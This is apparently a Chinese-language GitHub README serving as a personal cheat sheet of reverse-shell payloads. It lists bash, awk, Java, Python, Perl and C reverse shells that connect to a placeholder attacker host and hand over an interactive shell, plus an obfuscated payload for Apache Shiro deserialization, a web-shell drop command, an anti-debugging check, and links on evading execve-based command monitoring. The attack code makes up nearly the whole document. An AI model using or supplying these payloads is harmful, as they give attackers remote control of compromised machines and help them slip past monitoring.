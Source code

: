 # ReverseShell
自己经常使用的反弹shell命令
## bash
```
bash -c {echo,xxx}|{base64,-d}|{bash,-i}
bash -c "bash -i >& /dev/tcp/ip/port  0>&1"
bash -i 5<>/dev/tcp/host/port 0>&5 1>&5

awk 'BEGIN{s="/inet/tcp/0/ip/port";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```
## java
```java
try{
    Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/ip/2333;cat <&5 | while read line; do $line 2>&5 >&5; done"});
}catch (IOException e){
    try{
        Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc"});
    }catch (IOException ee){
    }
}
```
### shiro 550
反弹shell
https://bkfish.gitee.io/2020/04/24/Apache-Shiro-1-2-4%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2016-4437%EF%BC%89%E5%A4%8D%E7%8E%B0%E9%81%87%E5%88%B0%E7%9A%84%E5%9D%91/


https://mp.weixin.qq.com/s/zCe_O37rdRqgN-Yvlq1FDg

```
cc2 
bash -c bash${IFS}-i${IFS}>&/dev/tcp/XXXXX/XX<&1

```
并且执行命令
```bash
sh -c $@ | sh . echo `echo shell>shell.jsp`
```

## python
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ip",4444))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
## perl
```
perl -e 'use Socket;$i="ip";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## c
来自m3师傅
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/wait.h>
#include <stdlib.h>


#include <sys/ptrace.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <sys/socket.h>

__attribute__((constructor)) void debugCheck()
{
    if(ptrace(PTRACE_TRACEME,0,1,0) == -1)
    {
        printf("debug found");
        exit(0);
    }
}

int main(int argc,char** argv)
{
    int status;
    printf("Main Process:%d\n",getpid());

    if(fork() == 0)
    {
        printf("Child Process:%d\n",getpid());
        struct sockaddr_in addr;
        addr.sin_family = AF_INET;
        addr.sin_addr.s_addr = inet_addr("127.0.0.1");
        addr.sin_port = htons(2333);
        int fd = socket(AF_INET,SOCK_STREAM,0);
        if(!connect(fd,(const struct sockaddr *)&addr,sizeof(addr)))
        {
            printf("connect success\n");
        }
        
        dup2(fd,0); 
        dup2(fd,1); 
        dup2(fd,2); 
        char* argv[] = {"/bin/bash",NULL};
        execve("/bin/bash",argv,'\0'); 
    }
    pid_t child_pid = wait(&status);
    printf("Child PID:%d Terminate Status:%d\n",child_pid,WEXITSTATUS(status));

}
```

## 交互式
```
python -c 'import pty;pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i
```
[完全交互式Shell](https://www.jianshu.com/p/e7202cb2c3dd)


## 逃逸基于execve的命令监控的反弹shell

https://grugq.github.io/docs/ul_exec.txt

[无"命令"反弹shell-逃逸基于execve的命令监控(上)](https://mp.weixin.qq.com/s/rcPnXJrjcFeAWMnXsyJDPA)

[如何改变进程名称](https://mp.weixin.qq.com/s?__biz=MzkyMDIxMjE5MA==&mid=2247484350&idx=1&sn=14d5423fe226e9716eee2f4eaf58e62a&chksm=c197040ff6e08d19c5c2877775777054a7917db0e743c6abe1187782639e3cc3f20f02738b7d&mpshare=1&scene=23&srcid=0131L4KTJKxOsz0ATdwjU24c&sharer_sharetime=1643560116868&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd)
